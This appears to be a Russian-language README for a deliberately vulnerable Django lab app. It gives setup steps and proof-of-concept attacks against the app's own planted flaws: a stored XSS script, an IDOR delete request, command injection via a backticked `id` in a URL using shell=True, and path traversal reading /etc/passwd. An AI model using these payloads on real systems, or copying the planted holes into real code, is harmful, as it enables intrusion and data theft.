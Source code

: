 ### Инструкция по сборке и запуску приложения
> В этом разделе нужно описать пререквизиты и примеры запуска
Стандартно сделать venv, активировать, поставить депенденси и запустить локальный сервер:
```
python -m venv env
source env/bin/activate
pip install -r requirements.txt
python vulnapp/manage.py runserver
```
И поставить exiftool apt install exiftool.

Тк БД sqlite есть в репо, то миграции делать ненужно.

Чтобы воспользоватся приложением, надо зайти на http://127.0.0.1:8000/. Чтобы зарегистрировать аккаунт можно просто нажать на "Create new post", он перенесет на страницу авторизации автоматически. Тамже и есть кнопка перехода на регистрацию аккаунта.

Далее можно создавать посты которые увидят другие пользователи.

### Proof of Concept
#### XSS
Чтобы стригерить XSS надо просто наажать "Create new post", выбрать какуюнить картинку и в текстовое поле вставить html код. 

```
<script>alert()</script>
```
При заходе на главную страницу код исполнится.

#### IDOR
Создаем собственное сообщение, и открываем devtools вкладку сеть. Удаляем собственное сообщение, и нажимаем на запрос copy as fetch. Через другой аккаунт создаем чужое сообщение которое хотим удалить, либо удалям уже существующее. с дампа БД должны быть мои сообщения, например айди 15.

```
await fetch("http://127.0.0.1:8000/delete/15", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "application/x-www-form-urlencoded",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-User": "?1"
    },
    "referrer": "http://127.0.0.1:8000/",
    "method": "POST",
    "mode": "cors"
});
```

В самом интерфейсе я специально оставил функцию убирания кнопки, чтобы это было как настоящий IDOR бекенда.
#### SQLI
Тк использовал ORM для всех запросов, то инъекций нету.
#### OS command injection
Берем любую картинку которую загрузили, нажимаем copy url. И меняем user_uploads на get_exif_data:

127.0.0.1:8000/get_exif_data/cartinka.jpg

Тк используется shell=True, и испльзуется простое прибавление строк, то можно просто:

http://127.0.0.1:8000/get_exif_data/%60id%60

Это например исполнит команду id.
#### Path Traversal
Тк была убрана проверка белого списка БД на пути + путь к файлу берется из параметра запроса:
```
curl http://127.0.0.1:8000/user_uploads/?path=../../../../../etc/passwd
```
то теперь можно 

#### Brute force
Использовал Django-axe он ставит ограничения на скорость попыток по айпи. В джанге встроенная парольная политика очень жесткая, поэтому брутфорс невозможен.

### Дополнительные комментарии
Для простоты проверки на IDOR я выключил CSRF милдлварь.

Дебаг в проде это плохо.
